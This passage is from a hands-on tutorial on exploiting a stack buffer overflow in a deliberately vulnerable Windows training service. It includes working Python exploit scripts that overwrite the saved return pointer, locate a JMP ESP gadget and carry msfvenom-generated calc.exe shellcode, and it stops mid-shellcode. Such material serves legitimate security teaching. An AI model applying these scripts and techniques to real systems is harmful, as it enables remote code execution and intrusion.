`0x41414141`, and the presence of `0x41414141` in the `EIP` register. `0x41` is
the hexadecimal value of the ASCII character `"A"`. We can be pretty certain
this is due to having overwritten the Saved Return Pointer with four of our
1024 `A`'s. If you want to, you can confirm this by keeping the breakpoints
from earlier and stepping over each instruction in the function all the way
through to the return from `doResponse()`.

Be sure to restart (`Ctrl-F2`) the program before trying to connect to it again
then pound `F9` to get it up and running.


\newpage
# Discover offsets

We have the ability to smash the Saved Return Pointer and put `"AAAA"` in to
`EIP`, but we need to know exactly how far in to our trove of `A`'s the four
bytes that ends up smashing the Saved Return Pointer is. The easiest way to do
this is using Metasploit's `pattern_create.rb`. If you're running Kali this
should be at either:

* `/usr/share/metasploit-framework/tools/pattern_create.rb`; or
* `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb`

Depending on how up to date your Kali's `metasploit-framework` package is.

If you're running Metasploit from a copy of Rapid7's git repository (as I do),
it's in `tools/exploits/`

Use `pattern_create.rb` to generate 1024 characters of cyclic pattern.

```
% ~/opt/metasploit-framework/tools/exploit/pattern_create.rb -l 1024

Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1
Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3
Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5
Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7
Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9
Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1
An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3
Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5
Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7
At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9
Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1
Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3
Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5
Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7
Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9
Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0B
```

This is a handy dandy sequence of characters in which every "chunk" of four
sequential characters is unique. We can use it instead of our 1024 `A`'s and
check to see which four of them ends up in `EIP`.

\newpage

Updating our Python script to include the pattern:

```{.python .numberLines}
#!/usr/bin/env python2
import socket

RHOST = "172.17.24.132"
RPORT = 31337

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((RHOST, RPORT))

buf = ""
buf += ("Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab"
  "8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8A"
  "d9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9"
  "Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai"
  "0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0A"
  "k1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1"
  "Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao"
  "2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2A"
  "q3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3"
  "As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au"
  "4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4A"
  "w5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5"
  "Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba"
  "6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6B"
  "c7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7"
  "Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg"
  "8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0B")
buf += "\n"

s.send(buf)
```

---

\newpage

And sending 'er off:

```
% ./exploit.py
```

We get a somewhat different crash this time. Instead of `0x41414141` (`"AAAA"`)
being in `EIP`, we have `0x39654138` (`"9eA8"`).


\newpage

We have several options for finding out how far in our cyclic pattern the
sequence `"9eA8"` appears.

We can run Metasploit's `pattern_offset.rb` with an argument of either "9eA8"
or "39654138":

```
% ~/opt/metasploit-framework/tools/exploit/pattern_offset.rb -q 39654138
[*] Exact match at offset 146
```

This tells us that the four characters that overwrite the Saved Return Pointer
and end up in `EIP` are at offset 146 (i.e. from the 147th character onwards).

Alternatively, `mona.py` gives us a function called `"findmsp"` that will
search the memory of our process for all instances of the cyclic pattern and
will give us a bunch of info on each occurrence, will tell us if any registers
(e.g. `EIP`) contain a subset of the pattern, if any registers point to
somewhere in a copy of the pattern, and much much more.

`mona.py` commands are run via the command input at the bottom of Immunity
Debugger and are prefixed with `"!mona"`.


The output (viewable in Immunity's Log Data window) tells us, among other
things, that:

* `EIP` contains normal pattern : `0x39654138` (offset 146)
* `ESP` (`0x005D19F8`) points at offset 150 in normal pattern (length 874)

Interestingly, not only does `EIP` contain the four-byte sequence at offset 146
of our input, but the `ESP` register contains an address that points to offset
150 of our input. This makes sense. `EIP` contains the four-byte sequence at
offset 146 of our input because it is a Saved Return Pointer that was
overwritten by `sprintf()` and then later returned to.

We know that `RET` does the following:

* Takes the value at the top of the stack (where `ESP` points to) and plonks it in `EIP`
* Increments `ESP` by 4, so that it points at the next item "down" the stack

That is, before the `RET`urn to the smashed Saved Return Pointer, our stack
looks like this:

```
           01F419EC   00366541  Ae6.
           01F419F0   65413765  e7Ae
ESP -->    01F419F4   39654138  8Ae9  | Saved Return Pointer
           01F419F8   41306641  Af0A
           01F419FC   66413166  f1Af
           01F41A00   33664132  2Af3
```

And after the `RET`urn it looks like this:

```
           01F419EC   00366541  Ae6.
           01F419F0   65413765  e7Ae
           01F419F4   39654138  8Ae9  | Saved Return Pointer
ESP -->    01F419F8   41306641  Af0A
           01F419FC   66413166  f1Af
           01F41A00   33664132  2Af3
```

Hence, `ESP` naturally points, once the overwritten Saved Return Pointer has
been `RET`urned to, to just after the overwritten Saved Return Pointer.

This phenomenon is commonly seen when exploiting Saved Return Pointer
overwrites, and comes very much in handy as we'll see shortly.

\newpage
# Confirm offsets, control `EIP`

Before we continue, we should confirm that our offsets as follows are correct:

* Saved Return Pointer overwrite at offset 146
* `ESP` ends up pointing at offset 150

Restart the process in Immunity and update our Python script to validate our
discovered offsets.

```{.python .numberLines}
#!/usr/bin/env python2
import socket

RHOST = "172.17.24.132"
RPORT = 31337

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((RHOST, RPORT))

buf_totlen = 1024
offset_srp = 146

buf = ""
buf += "A"*(offset_srp - len(buf))    # padding
buf += "BBBB"                         # SRP overwrite
buf += "CCCC"                         # ESP should end up pointing here
buf += "D"*(buf_totlen - len(buf))    # trailing padding
buf += "\n"

s.send(buf)
```

---

**Why the trailing padding?**

It's sometimes necessary to keep the total length of what you're sending
constant. Some programs will behave differently with differently sized inputs,
and until you're certain that this won't affect your exploit, you should keep
the length constant. In our case, let's always send `buf_totlen` (1024)
characters followed by a newline. It's not needed for
`dostackbufferoverflowgood.exe` but it's a good habit to pick up early-on.

**What's with all the `"something - len(buf)"`?**

It's way of saying "append enough of the character to make the string be
`something` characters long". `len(buf)` is the current length of the string,
so we subtract it from `something` to get the number of characters we need to
append to take it out to a total length of `something`.

Note that we do it every time, even for the `A`'s. `len(buf)` will be `0` when
we append these `A`'s, but if we ever need to add something in at the beginning
of the `A`'s then we can slip it in and the appending of `A`'s will
automatically adjust to compensate. Cool huh?

\newpage

Running this:

```
% ./exploit.py
```

Immunity tells us that we get a crash, this time on `0x42424242` (The ASCII
sequence `"BBBB"`) and `ESP` points to `"CCCC"` followed by a bunch of `"D"`
characters. Just as expected.

This is known as having "`EIP` control".



\newpage
# Determine "bad characters"

So far, we've sent to the service only a few different characters - the letters
`"A"` through `"D"` and a newline (`"\n"`). We need to take a moment to think
about which characters we are allowed to send to the service, and which ones
we're not allowed to send to the service because they might cause the service
to behave differently or corrupt the characters before putting them in to
memory.

Characters that we can't use for one reason or another are called "bad
characters" or "badchars".

Off the bat, we can think of a few definite bad characters.

The vulnerable function is `sprintf`, which is a string-handling function.
ASCII strings are terminated with a null byte (`"\x00"`). If we were to use a
null byte in what we send to the service, then `sprintf` (and potentially other
string handling functions in the program) would essentially ignore anything we
put after the null byte, causing our exploit to fail or behave incorrectly.
Null bytes are commonly bad characters in the exploitation field, especially
when the bug is a string-related operation. Null bytes should be at the top of
your list of candidate badchars.

We know that `handleConnection()` "chunks" the messages we send to it based on
a newline character (`"\n"`, or alternatively "`\x0A"`). It calls
`doResponse()` separately for each newline-delimited message we send. If we
were to use the newline character anywhere in our exploit except to end the
message we send, it would break our message in to two distinct messages (which
would mean two distinct `CALL`'s to `doResponse()` and would cause our exploit
to fail or behave incorrectly.

This gives us `"\x00\x0A"` as a starting point for our badchars.

To be sure we haven't missed any others (or if, for any given program, you're
having trouble reasoning about which characters may be bad) we can adapt our
Python program to:

* Generate a test string containing every possible byte from `\x00` to `\xFF` except for `\x00` and `\x0A` (we'll do this using a `for` loop)
* Write that string to a binary file
* Put the string in to our payload in a convenient spot.
* Cause the program to crash

One such "convenient spot" at which to put the test string is the location at
which we know `ESP` will be pointing to at the time of the crash

Once the program has crashed, we can compare the file we saved on disk
containing our test string to the memory location pointed to by `ESP`. If it's
a match, we know we have listed all the badchars. If it's not a match, we can
dig in to what's different between the two and deduce further badchars.

\newpage

Our Python script, with the generation and saving of a test string, becomes:

```{.python .numberLines}
#!/usr/bin/env python2
import socket

RHOST = "172.17.24.132"
RPORT = 31337

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((RHOST, RPORT))

badchar_test = ""         # start with an empty string
badchars = [0x00, 0x0A]   # we've reasoned that these are definitely bad

# generate the string
for i in range(0x00, 0xFF+1):     # range(0x00, 0xFF) only returns up to 0xFE
  if i not in badchars:           # skip the badchars
    badchar_test += chr(i)        # append each non-badchar char to the string

# open a file for writing ("w") the string as binary ("b") data
with open("badchar_test.bin", "wb") as f:
  f.write(badchar_test)

buf_totlen = 1024
offset_srp = 146

buf = ""
buf += "A"*(offset_srp - len(buf))    # padding
buf += "BBBB"                         # SRP overwrite
buf += badchar_test                   # ESP points here
buf += "D"*(buf_totlen - len(buf))    # trailing padding
buf += "\n"

s.send(buf)
```

\newpage

Running this:

```
% ./exploit.py
```

The script will spit out a binary file named `badchar_test.bin`. This file
contains every byte from `\x00` to `\xFF` except for `\x00` and `\x0A`.

`xxd`, a command-line hex viewer, is great for viewing such a binary file:

```
% xxd badchar_test.bin
00000000: 0102 0304 0506 0708 090b 0c0d 0e0f 1011  ................
00000010: 1213 1415 1617 1819 1a1b 1c1d 1e1f 2021  .............. !
00000020: 2223 2425 2627 2829 2a2b 2c2d 2e2f 3031  "#$%&'()*+,-./01
00000030: 3233 3435 3637 3839 3a3b 3c3d 3e3f 4041  23456789:;<=>?@A
00000040: 4243 4445 4647 4849 4a4b 4c4d 4e4f 5051  BCDEFGHIJKLMNOPQ
00000050: 5253 5455 5657 5859 5a5b 5c5d 5e5f 6061  RSTUVWXYZ[\]^_`a
00000060: 6263 6465 6667 6869 6a6b 6c6d 6e6f 7071  bcdefghijklmnopq
00000070: 7273 7475 7677 7879 7a7b 7c7d 7e7f 8081  rstuvwxyz{|}~...
00000080: 8283 8485 8687 8889 8a8b 8c8d 8e8f 9091  ................
00000090: 9293 9495 9697 9899 9a9b 9c9d 9e9f a0a1  ................
000000a0: a2a3 a4a5 a6a7 a8a9 aaab acad aeaf b0b1  ................
000000b0: b2b3 b4b5 b6b7 b8b9 babb bcbd bebf c0c1  ................
000000c0: c2c3 c4c5 c6c7 c8c9 cacb cccd cecf d0d1  ................
000000d0: d2d3 d4d5 d6d7 d8d9 dadb dcdd dedf e0e1  ................
000000e0: e2e3 e4e5 e6e7 e8e9 eaeb eced eeef f0f1  ................
000000f0: f2f3 f4f5 f6f7 f8f9 fafb fcfd feff       ..............
```

We also get a crash in Immunity. With this crash, `ESP` seems to be pointing to
(i.e. at the top of the stack is) a copy of our test string.


Note that Immunity Debugger reverses the order of items on the stack due to
Intel's little endian-ness. We'll cover what "little endian" means shortly.
Even though the string appears back-to-front in the stack view, if you
right-click on `ESP` in the registers list and click "Follow in Dump", you'll
see it's front-to-back in the area of memory used by the stack.


\newpage

To see if our test string has landed in memory intact, we can use `mona.py`'s
`compare` function with the following arguments:

* `-a esp` - compare the contents of memory at the address pointed to by `ESP`
* `-f <filename>` - compare the contents of the file given by `<filename>`

Put `badchar_test.bin` somewhere on the Windows box (e.g. in `c:\`) and run:

```
!mona compare -a esp -f c:\badchar_test.bin
```

`mona.py` will tell us that the two items match. Thus, our only bad characters
are `\x00` and `\x0A`


\newpage
# `RET` to `"JMP ESP"`

Now that we have a reliable and tightly controlled Saved Return Pointer
overwrite (giving us control over `EIP`) and we know which bad characters we
need to avoid using, let's take a step closer towards gaining Remote Code
Execution.

We are looking to divert the program's usual execution flow to somewhere in
memory we control the contents of, and at that location we will want to have
put some machine bytecode that does something of use to us. The stack is
perfect for this as it contains a copy of whatever bytes we send over the
network. We could put our bytecode anywhere in the message we send that
overflows the `response` stack local variable, and then divert execution to the
bytecode we have caused to be put on the stack.

Since we control the Saved Return Pointer and hence `EIP`, we could
theoretically divert execution flow directly to the absolute address of the
bytecode we have put on the stack by overwriting the Saved Return Pointer with
that exact address. This is a bad idea for a few reasons:

* Even if the executable is compiled as not being subject to ASLR, the Operating System may still randomise the address of the stack making its absolute location hard to predict between different invocations of the executable.
* Even within a single invocation of `dostackbufferoverflowgood.exe`, each time a connection is made to the service a new thread is spawned to handle the connection. There is no guarantee that two different connections (and hence two different threads) will have their stack be at the same address, especially if they happen at the same time (it wouldn't make much sense to have two threads trying to use the exact same memory space for their own stacks, would it?)

For example, on my machine, I saw the following values in `ESP` at the time of
`CALL doResponse` for the first connection to three discrete invocations of
`dostackbufferoverflowgood.exe`:

* `0x004B19F8`
* `0x01F519F8`
* `0x01FF19F8`

I saw the following identical values in `ESP` at the time of `CALL doResponse`
for three different connections to the one invocation of
`dostackbufferoverflowgood.exe`:

* `0x004A19F8`
* `0x004A19F8`
* `0x004A19F8`

While I saw the following values in `ESP` at the time of `CALL doResponse` for
three different **simultaneous** connections to the one invocation of
`dostackbufferoverflowgood.exe`:

* `0x01F419F8`
* `0x020819F8`
* `0x021C19F8`

Try this yourself. Does the stack address change across different invocations
of the service? Does it change across connections? How confident are you that
you could guess the address that the stack is at, remotely, on your first try?

Since nailing down the exact address of the stack is generally difficult due to
ASLR and things like threading, it is almost always better to make the diverted
execution flow "pivot" via something that is in a static memory location.

Remember how the part of our data that comes right after the Saved Return
Pointer overwrite is pointed to by `ESP` at the time of `doResponse()`'s
`RET`urn to the overwritten Saved Return Pointer? This is about to come in
super handy - we can put the bytecode we want to have executed at this location
in the data we send and leverage the fact that `ESP` points to it as part of
our redirection of program flow.

As the `dostackbufferoverflow.exe` binary was compiled without ASLR, its
**code**, as opposed to its stack(s), will be located at the exact same memory
address each time. We can locate some bytes within its program code that
correspond to the bytecode for `"JMP ESP"` and overwrite the Saved Return
Pointer with that address. The following should happen:

1. The `RET` at the end of `doResponse()` will cause execution to `RET`urn to the instruction `"JMP ESP"` which is part of the original program. This `RET` will cause the `ESP` register to be incremented by 4, making it point to the stack directly after the overwritten Saved Return Pointer.
2. `"JMP ESP"` will be executed. This will direct execution to the location that `ESP` points to.
3. Our bytecode, which `ESP` points at, will be executed.

Think of the `"JMP ESP"` as being a trampoline, off of which the execution flow
will end up pivoting or "bouncing" back to the stack.

Such an interesting instruction or sequence of instructions within an existing
binary program is often referred to as a "Gadget".

`mona.py` is able to search memory for sequences of bytes (or "Gadgets") that
correspond to a `JMP` to the address stored in a given register.

With the binary in either a running or crashed state, running:

```
!mona jmp -r esp -cpb "\x00\x0A"
```

Causes `mona.py` to search all the memory that contains program code which is
not subject to ASLR (including the memory of `dostackbufferoverflowgood.exe`)
for `"JMP ESP"` gadgets. It tells us that there are `"JMP ESP"` gadgets within
`dostackbufferoverflowgood.exe` at:

* `0x080414C3`; and
* `0x080416BF`


\framebox{
  \parbox{\textwidth}{
    \textbf{Pro tip}: Many mona.py commands take the -cpb argument which allows
    you to specify a list of bad characters. mona.py will avoid returning
    memory pointers containing bad characters, keeping your exploit functional
    and keeping you happy.
  }
}

Right-clicking on one of these pointers in the "Log data" window and clicking
`"Follow in disassembler"` shows us that there is indeed a `"JMP ESP"` gadget
at that memory location.


Thus, if we overwrite the Saved Return Pointer with either of these addresses,
then after `doResponse()` tries to `RET`urn to the overwritten Saved Return
Pointer, it will execute the `"JMP ESP"` instruction and divert execution flow
to whatever data we send after the value that overwrites the Saved Return
Pointer.

```
-------------------------------------------------------------------
                   overwritten saved RET ptr
          padding    (pointer to JMP ESP)       bytecode
             |                 |                   |
/----------------------------\/--\/-------------------------------\
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAPPPPBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
                                  ^
                                  |
                      ESP points here after RET
-------------------------------------------------------------------
```

\newpage

Before we give one of our gadgets a go, we need to know to take in to account
what is called "Endianness". x86 is what's known as a little-endian
architecture. On a little-endian architecture, values are stored in memory as
back-to-front bytes, with the Least Significant Byte (LSB) appearing first.

For example:

* ASCII strings (e.g. `"ABCD"`) are stored front-to-back: `"\x41\x42\x43\x44\x00"`
* Code (e.g. `"NOP # NOP # NOP # RET"`) is stored front-to-back: `"\x90\x90\x90\xC3"`
* Numbers (e.g. `0x1337`) are stored **back-to-front**: `"\x37\x13\x00\x00"`
* Memory addresses or "pointers" (e.g. `0xDEADBEEF`) are stored **back-to-front**: `"\xEF\xBE\xAD\xDE"`

If we're going to replace the Saved Return Pointer with a pointer of our own
choosing, we should be sure to represent the replacement pointer as a
little-endian value so that it makes sense to the CPU.

There are at least two ways of little-endian-ing values within Python, ready to
be sent to a running program.

1. Do it manually
2. Do it using `struct.pack()`

To do it manually involves taking the value, converting it to hexadecimal if
it's a decimal number, mentally reversing the order of bytes, and entering
those bytes as a string. This is error-prone, annoying to do, hard to update
later on, it makes your code less clear, and it means you can't quickly
copy-paste a memory address (e.g. to set a cheeky debugger breakpoint)

Doing it using `struct.pack()` involves `import`ing the `struct` module and,
for a 32-bit value, calling the `pack()` function with the `"<I"`
(little-endian, unsigned int) parameter.

For example:

```
% python
Python 2.7.12rc1 (default, Jun 13 2016, 09:20:59)
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import struct
>>> struct.pack("<I", 0xCAFE)
'\xFE\xCA\x00\x00'
>>> struct.pack("<I", 0xDEADBEEF)
'\xEF\xBE\xAD\xDE'
>>> struct.pack("<I", 3737844653)
'\xAD\xFB\xCA\xDE'
```

Much nicer!

\newpage

We can now update our exploit and specify that the Saved Return Pointer should
be overwritten with a pointer to one of our `"JMP ESP"` gadgets (making sure
that it's represented as a little-endian value). As for the bytecode we want
the `"JMP ESP"` to pivot back to, we'll use what's known as the `"INT 3"`
machine instruction (`"\xCC"` in bytecode).

`"INT 3"` is an instruction that generates a software interrupt, causing an
attached debugger to pause execution of the process as though hitting a
breakpoint that had been set by the user.

\framebox{
  \parbox{\textwidth}{
    \textbf{Pro tip}: "INT 3" is actually how debuggers implement software
    breakpoints. The debugger quietly replaces a single byte of the original
    program code at the location of the breakpoint with "INT 3"
    ({\textbackslash}xCC) and then when the breakpoint gets hit, it swaps the
    replaced byte out with what it originally was. The more you know!
  }
}

Let's use some specific number of consecutive `"INT 3"` instructions as our
bytecode to be executed, so that if Immunity tells us the program is trying to
execute as many of them as we've specified we know we've succeeded. I'm going
to use four of them.

Our exploit evolves to become:

```{.python .numberLines}
#!/usr/bin/env python2
import socket
import struct

RHOST = "172.17.24.132"
RPORT = 31337

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((RHOST, RPORT))

buf_totlen = 1024
offset_srp = 146

ptr_jmp_esp = 0x080414C3

buf = ""
buf += "A"*(offset_srp - len(buf))      # padding
buf += struct.pack("<I", ptr_jmp_esp)   # SRP overwrite
buf += "\xCC\xCC\xCC\xCC"               # ESP points here
buf += "D"*(buf_totlen - len(buf))      # trailing padding
buf += "\n"

s.send(buf)
```

\newpage

Restarting the process within Immunity, and firing this off, we see that we've
successfully hijacked the usual program flow and it's trying to execute the
data we sent it as code! We see our sequence of `\xCC` bytes on the stack as
well as in the disassembly, and the status bar tells us the program hit an
`"INT 3 command"`. Note that the disassembly view will show you one less `"INT
3"` than you sent it, since Immunity considers one of them as having already
been executed and scrolls right past it. If you scroll up to try to see the
already-executed `"INT 3"` then you'll see an `"\xCC"` but Immunity might not
seem to disassemble it as an actual `"INT 3"`. Disassembling backwards is hard
because x86 instructions are variable-length.


In doing this, we've technically achieved Remote Code Execution, it's just that
the Code we're Remotely Executing isn't terribly useful to us (yet). Give
yourself a huge pat on the back!

\newpage
# Generate Shellcode

To recap:

* We know we can reliably overwrite the Saved Return Pointer with a specific value (and hence gain control of `EIP`)
* We can set `EIP` to the address of a `"JMP ESP"` gadget to redirect execution flow to some bytecode we have put on the stack
* We can cause Remote Code Execution of some `"INT 3"` instructions.

We now need to come up with some interesting bytecode to put on the stack (as
part of the message we send to the server) to make the process do something of
use to us.

Bytecode that is useful for exploitation is often referred to as "Shellcode"
owing to the fact that it traditionally and most often gives the attacker an
interactive shell on the victim machine. Shellcode isn't restricted just to
coughing up shells however, it is possible to find, generate or write shellcode
for various Operating Systems that can:

* Execute a command
* Disable a firewall
* Add a new user
* Fire up VNC
* Pop up a message box (you made a webpage go `alert(1)`? I did it to a freaking program)
* Shut down a host

A reverse shell is the sexiest type of shellcode, and probably of the most use
in the real world, but it's also a bit more effort to put together and one more
way in which something can go wrong during exploit development. You don't want
to be left wondering what you're doing wrong, stepping through your exploit,
when you simply forgot to turn off `iptables` on the machine running
Metasploit.

It's for this reason that many exploit developers prefer to work with simpler
shellcode that makes it immediately obvious that their exploit has succeeded.
I, and many others, choose to use shellcode that runs `calc.exe` when doing
Windows exploitation (known as "popping calc"). You should be suitably
impressed when you (or someone else) demonstrates the ability to execute the
Windows calculator on someone else's computer - because if you can pop calc,
it's not hard to imagine running other code.

Metasploit comes with a tool called `msfvenom` that can produce shellcode. It
used to come with two tools, `msfpayload` and `msfencode`, but these have been
replaced with `msfvenom`. If you read a tutorial that tells you to run
`msfpayload`, be sure to run `msfvenom` instead.

`msfvenom` should be pre-installed and in `$PATH` on Kali, as well as in the
root of the official Metasploit Framework repo. I personally use Metasploit
from a `git clone` of the official repo into my `~/opt/` directory.

`msfvenom` can list the available payloads (a lot of them) with the `-l
payloads` option. We will be using the `windows/exec` payload, so that we end
up with shellcode that will simply execute a command.

To see the options that you need to specify for a given payload, run `msfvenom`
with the payload specified using `-p` and add the `--payload-options` argument:

```
% ~/opt/metasploit-framework/msfvenom -p windows/exec --payload-options
Options for payload/windows/exec:


       Name: Windows Execute Command
     Module: payload/windows/exec
   Platform: Windows
       Arch: x86
Needs Admin: No
 Total size: 185
       Rank: Normal

Provided by:
    vlad902 <vlad902@gmail.com>
    sf <stephen_fewer@harmonysecurity.com>

Basic options:
Name      Current Setting  Required  Description
----      ---------------  --------  -----------
CMD                        yes       The command string to execute
EXITFUNC  process          yes       Exit technique (Accepted: '',
                                     seh, thread, process, none)

Description:
  Execute an arbitrary command


Advanced options for payload/windows/exec:

    Name           : PrependMigrate
    Current Setting: false
    Description    : Spawns and runs shellcode in new process

    Name           : PrependMigrateProc
    Current Setting:
    Description    : Process to spawn and run shellcode in

    Name           : VERBOSE
    Current Setting: false
    Description    : Enable detailed status messages

    Name           : WORKSPACE
    Current Setting:
    Description    : Specify the workspace for this module

Evasion options for payload/windows/exec:


```

The options we will provide to `msfvenom` are:

* `-p windows/exec` (we want Windows shellcode that will `exec`ute a command)
* `-b '\x00\x0A'` (the list of bad characters we determined earlier, so that `msfvenom` can avoid having them in the generated shellcode)
* `-f python` (output shellcode in a Python-friendly format)
* `--var-name shellcode_calc` (tell `msfvenom` to output Python code that sets a variable called `shellcode_calc`)
* `CMD=calc.exe EXITFUNC=thread` (options for the `windows/exec` payload)

`CMD` gets set to `calc.exe` for poppage of calc. `EXITFUNC` specifies how the
shellcode should clean up after itself. If msfvenom wasn't to add some sort of
`FUNC`tion to `EXIT` with, execution would "fall off" the end of the shellcode
on the stack and random stack data would be executed as code, crashing the
process and ruining our day as attackers. By choosing an `EXITFUNC` of
`thread`, `msfvenom` will append some code that cleanly shuts down the thread
it is running in. Since `dostackbufferoverflowgood.exe` handles client
connections in separate threads, this will mean that the service as a whole
will continue to run after our shellcode executes. If we left `EXITFUNC` at the
default value of `process`, the shellcode would cause the whole service to shut
down after the shellcode had finished executing.

\newpage

Running `msfvenom` we get our shellcode:

```
% ~/opt/metasploit-framework/msfvenom -p windows/exec -b '\x00\x0A' \
    -f python --var-name shellcode_calc CMD=calc.exe EXITFUNC=thread

No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
Found 10 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 220 (iteration=0)
x86/shikata_ga_nai chosen with final size 220
Payload size: 220 bytes
shellcode_calc =  ""
shellcode_calc += "\xb8\x3e\x08\xbf\x9c\xdb\xdc\xd9\x74\x24"
shellcode_calc += "\xf4\x5f\x29\xc9\xb1\x31\x31\x47\x13\x03"
shellcode_calc += "\x47\x13\x83\xc7\x3a\xea\x4a\x60\xaa\x68"
shellcode_calc += "\xb4\x99\x2a\x0d\x3c\x7c\x1b\x0d\x5a\xf4"
shellcode_calc += "\x0b\xbd\x28\x58\xa7\x36\x7c\x49\x3c\x3a"
shellcode_calc += "\xa9\x7e\xf5\xf1\x8f\xb1\x06\xa9\xec\xd0"
shellcode_calc += "\x84\xb0\x20\x33\xb5\x7a\x35\x32\xf2\x67"
shellcode_calc += "\xb4\x66\xab\xec\x6b\x97\xd8\xb9\xb7\x1c"
shellcode_calc += "\x92\x2c\xb0\xc1\x62\x4e\x91\x57\xf9\x09"
shellcode_calc += "\x31\x59\x2e\x22\x78\x41\x33\x0f\x32\xfa"
shellcode_calc += "\x87\xfb\xc5\x2a\xd6\x04\x69\x13\xd7\xf6"
shellcode_calc += "\x73\x53\xdf\xe8\x01\xad\x1c\x94\x11\x6a"
shellcode_calc += "\x5f\x42\x97\x69\xc7\x01\x0f\x56\xf6\xc6"
shellcode_calc += "\xd6\x1d\xf4\xa3\x9d\x7a\x18\x35\x71\xf1"
shellcode_calc += "\x24\xbe\x74\xd6\xad\x84\x52\xf2\xf6\x5f"
shellcode_calc += "\xfa\xa3\x52\x31\x03\xb3\x3d\xee\xa1\xbf"
shellcode_calc += "\xd3\xfb\xdb\x9d\xb9\xfa\x6e\x98\x8f\xfd"
shellcode_calc += "\x70\xa3\xbf\x95\x41\x28\x50\xe1\x5d\xfb"
